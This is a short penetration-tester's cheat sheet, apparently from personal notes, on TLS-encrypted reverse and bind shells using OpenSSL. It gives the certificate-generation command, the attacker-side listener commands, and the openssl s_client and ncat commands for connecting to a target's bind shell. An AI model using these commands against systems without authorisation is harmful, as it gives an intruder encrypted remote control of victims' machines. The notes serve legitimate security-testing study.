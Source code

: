 # OpenSSL

## 01 - Reverse Shell

- Generate TLS certificate.

```
user@pentestos:~$ openssl req -x509 -newkey rsa:4096 -days 365 -nodes -subj "/C=<country_code>/ST=<state>/L=<locality>/O=<organization_name>/OU=<organization_unit>/CN=<domain.com>/emailAddress=<email> -keyout private.key -out certificate.crt
```

- Shell handler.

```
user@pentestos:~$ openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>

user@pentestos:~$ ncat --ssl --ssl-key private.key --ssl-cert certificate.crt -lp <PORT>
```

## 02 - Bind Shell

- Shell handler

```
user@pentestos:~$ openssl s_client -quiet -connect <target_IP>:<target_PORT>

user@pentestos:~$ ncat --ssl <target_IP> <target_PORT>
```


---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/C - Initial Access/Callback Shells/OneLiners/Linux/Reverse Shells/OpenSSL|OpenSSL: Reverse Shells]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/C - Initial Access/Callback Shells/OneLiners/Linux/Bind Shells/OpenSSL|OpenSSL: Bind Shells]]